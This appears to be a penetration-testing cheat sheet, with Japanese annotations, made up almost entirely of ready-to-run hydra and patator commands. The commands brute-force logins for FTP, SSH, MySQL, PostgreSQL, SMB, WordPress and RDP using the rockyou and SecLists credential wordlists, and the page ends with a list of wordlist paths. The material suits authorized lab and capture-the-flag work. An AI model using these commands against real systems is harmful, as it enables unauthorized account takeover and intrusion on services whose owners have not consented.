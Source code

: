 ### FTP
```
hydra -f -l admin -P /usr/share/wordlists/rockyou.txt 10.10.10.1 ftp
hydra -C /usr/share/seclists/Passwords/Default-Credentials/ftp-betterdefaultpasslist.txt 192.168.227.56 ftp
```

### SSH
```
hydra -f -l <user> -P /usr/share/wordlists/rockyou.txt 10.10.10.1 -t 4 ssh
```

### MySQL
```
hydra -f -l user -P /usr/share/wordlists/rockyou.txt 10.10.10.1 mysql
```

### PostgreSQL
```
hydra -C /usr/share/seclists/Passwords/Default-Credentials/postgres-betterdefaultpasslist.txt 192.168.227.56 postgres
```

### SMB
```
hydra -f -l user -P /usr/share/wordlists/rockyou.txt 10.10.10.1 smb
```

### WordPress
```
hydra -f -l user -P /usr/share/wordlists/rockyou.txt 10.10.10.1 -V http-form-post '/wp-login.php:log=^USER^&pwd=^PASS^&wp-submit=Log In&testcookie=1:S=Location'
```
### Windows RDP
```
hydra -f -l administrator -P /usr/share/wordlists/rockyou.txt rdp://10.10.10.1
```

## patator
さまざまなプロトコルに対応したパスワードクラックツール。  
Hydraが成功しない時に、対応するプロトコルモジュールを指定して実行。  
下記はsshの例。
```
patator ssh_login host=10.0.0.1 user=root password=FILE0 0=passwords.txt -x ignore:mesg='Authentication failed.'
```

## Wordlist
```
/usr/share/wordlists/rockyou.txt
/usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt
/usr/share/seclists
/usr/share/seclists/Discoavery/DNS
```

